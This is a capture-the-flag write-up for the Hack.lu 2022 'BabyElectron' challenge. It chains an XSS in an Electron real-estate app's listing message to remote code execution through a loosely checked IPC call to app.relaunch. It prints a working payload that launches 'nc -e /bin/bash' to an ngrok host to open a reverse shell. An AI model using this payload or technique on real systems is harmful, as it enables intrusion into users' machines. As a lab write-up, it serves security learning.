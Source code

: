 ```yaml
---
layout: writeup
title:  "BabyElectron"
source: "flu.xxx"
solves: "19/718"
date:   2020-10-26 11:10:05 +0200
event: "Hack.lu 2022 CTF"
categories: [writeup]
ctf_categories: [web, XSS, RCE]
author: "Mike L."
image: "electron.png"
---
```


## Description
So you wanted to get into Electron Pwning? Your friend found a nice app, leaked its backend source from a Github repo he found while doxing some Luxembourg Real Estate Company. Pwn away by getting RCE! If you run into problems while setting it up reach out. This is the first flagstore for babyelectron. 

There are two flags: one in /flag which you can submit here and one in /printflag which you can submit at babyelectronV2

# The challenge
The whole source code of the app, as well as the server-side code was provided.

The electon app could be used used to buy, sell and report real estate objects.
You can also report a real estate listing, which is then checked by a bot. 
The goal is to get code execution of the machine of the bot, which is visiting the reported listing.

## TL;DR


# The solution
The solution comprised two steps: 
- First, you needed to get XSS in the electron app.
- Second, you needed to abuse the IPC function and get RCE.

## Setup
To make our lives easier, we started the electon app with: `electron . --proxy-server=127.0.0.1:8080` to be able to route the traffic of the app through burp.
Furhtermore, we enabled the developer tools by commenting out: `mainWindow.webContents.openDevTools()` in main.js

## First step - Getting XSS
In the support.js function from the `app` code, we see the following:

```
// security we learned from a bugbounty report
    listing.msg = DOMPurify.sanitize(listing.msg)

    const div = `
        <div class="card col-xs-3" style="width: 18rem;">
            <span id="REL-0-houseId" style="display: none;">${listing.houseId}</span>
            <img class="card-img-top" id="REL-0-image" src="../${listing.image}" alt="REL-img">
            <div class="card-body">
              <h5 class="card-title" id="REL-0-name">${listing.name}</h5>
              <h6 class="card-subtitle mb-2 text-muted" id="REL-0-sqm">${listing.sqm} sqm</h6>
              <p class="card-text" id="REL-0-message">${listing.message}</p>
              <input type="number" class="form-control" id="REL-0-price" placeholder="${listing.price}">
            </div>
        </div>
        <div>
            ${listing.msg}
        </div>
  `
```
listing.msg does get sanitized, however the other parameter do not.
The idea is to get script execution using `listing.message` parameter.

On the first impression its only possible to write the listing.msg parameter which gets posted with the report to get XSS.
As its gets sanitized, this is not possible.

However, when selling a real estate you can specify the `listing.message` when intercepting the message with burp.
So we altered the message parameter of to `<img src=x onerror=\"alert(1);\">`

Then, we checked if the XSS worked, by visiting the support page with out own electron app. 
Therefor we simply added a reference index.html s.t. it also had a link to the support page:

```html
<li class="nav-item">
    <a class="nav-link" href="../views/support.html">
      Support
    </a>
</li>
```
And also included links on the support.html page to navigate back to the other pages:
```html
<div>
    <a href="../views/index.html">Home</a>
    <a  href="../views/listings.html">Buy</a>
    <a  href="../views/portfolio.html">My Portfolio</a>
    <a  href="../views/support.html">Support</a>
</div>
```

We then navigated to the support page and intercepted the http request with burp and filled in the id, given when reporting the listing.
Thus, we could confirm the XSS.

## Step 2

Now we need to get RCE with the XSS.
Hacktricks has a nice atricle on how to get RCE from XSS in electon: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/xss-to-rce-electron-desktop-apps
As contextIsolation is tured on - `contextIsolation: true` in main.js, we figured, that we could give it a try via RCE via IPC.

The preload.js contained the following:

```js
const RendererApi = {
  invoke: (action, ...args)  => {
      return ipcRenderer.send("RELaction",action, args);
  },
};
```
It looks like we have a ipc method called `invoke`.
Lets check which function it allows us to execute in main.js:

```js
app.RELbuy = function(listingId){
  return
}

app.RELsell = function(houseId, price, duration){
  return
}

app.RELinfo = function(houseId){
  return
}

app.RElist = function(listingId){
  return
}

app.RELsummary = function(userId){
 return 
}

ipcMain.on("RELaction", (_e, action, args)=>{
  //if(["RELbuy", "RELsell", "RELinfo"].includes(action)){
  if(/^REL/i.test(action)){
    app[action](...args)  
  }else{
    // ?? 
  }
})
```

It looks like we can execute every method that starts with REL. However, the regex check is case insensitive.
Lets see if we can find an electon api app function whose name start with `rel` that might be useful. 
We find `relaunch` https://www.electronjs.org/de/docs/latest/api/app

After a bit of trial and error and reading the docs, we could achive RCE with this javascript function: 
`api.invoke("relaunch", {args: ["4.tcp.ngrok.io", "133573", "-e", "/bin/bash"], execPath:"nc"})`

Now we just needed to put that into our XSS script and let the bot visit it to get a reverse shell back.

We posted that to /sell:
```json
"message" : "<img src=x onerror=\'api.invoke('relaunch', {args: ['4.tcp.ngrok.io', '133573', '-e', '/bin/bash'], execPath:'nc'})\">"
```
We then got the id back, which we then submitted to the bot and got a shell back. The shell only lasted for 15 secs, so we needed to be quick to print out both flag ^^. but after some attemts we got both flags.

Big thanks to Alain who helped a lot during the challenge. :)
